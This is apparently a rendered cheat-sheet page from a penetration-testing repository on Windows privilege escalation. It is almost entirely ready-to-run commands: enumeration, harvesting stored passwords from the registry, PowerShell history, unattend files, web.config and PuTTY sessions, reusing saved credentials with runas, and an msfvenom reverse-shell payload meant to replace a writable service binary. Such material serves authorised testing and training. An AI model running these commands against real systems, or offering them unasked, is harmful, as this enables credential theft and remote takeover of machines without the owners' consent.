

repository: georgenadejde/CheatShip · page: post-exploitation/windows-privesc/index.html · generator: mkdocs

# Windows Privilege Escalation

Credential harvesting, service misconfigs, token abuse, unquoted paths, scheduled tasks.

---

## Enumeration

```powershell
# who am I + privileges
whoami
whoami /priv
whoami /groups
```
```powershell
# system info
systeminfo
hostname
```
```powershell
# list users
net user
net localgroup administrators
```
```powershell
# installed software
wmic product get name,version,vendor
```
```powershell
# running services
sc query
wmic service list brief
```
```powershell
# scheduled tasks
schtasks /query /fo list /v
```
```powershell
# registry search for passwords
reg query HKLM /f password /t REG_SZ /s
reg query HKCU /f password /t REG_SZ /s
```

---

## Credential Harvesting

### Unattended install files

```
C:\Unattend.xml
C:\Windows\Panther\Unattend.xml
C:\Windows\system32\sysprep.inf
```

### PowerShell history

```powershell
type $Env:userprofile\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadline\ConsoleHost_history.txt
```

### Saved credentials

```cmd
cmdkey /list
runas /savecred /user:admin cmd.exe
```

### IIS web.config

```cmd
type C:\Windows\Microsoft.NET\Framework64\v4.0.30319\Config\web.config | findstr connectionString
```

### PuTTY saved proxy credentials

```cmd
reg query HKEY_CURRENT_USER\Software\SimonTatham\PuTTY\Sessions\ /f "Proxy" /s
```

---

## Service Misconfigurations

### Insecure service executable permissions

```cmd
# check service binary path
sc qc <service_name>

# check permissions
icacls <path_to_binary>

# if writable by Everyone (M) -> replace with reverse shell
msfvenom -p windows/x64/shell_reverse_tcp LHOST=IP LPORT=4444 -f exe-service -o rev.exe
sc stop <svc>
sc start <svc>
```
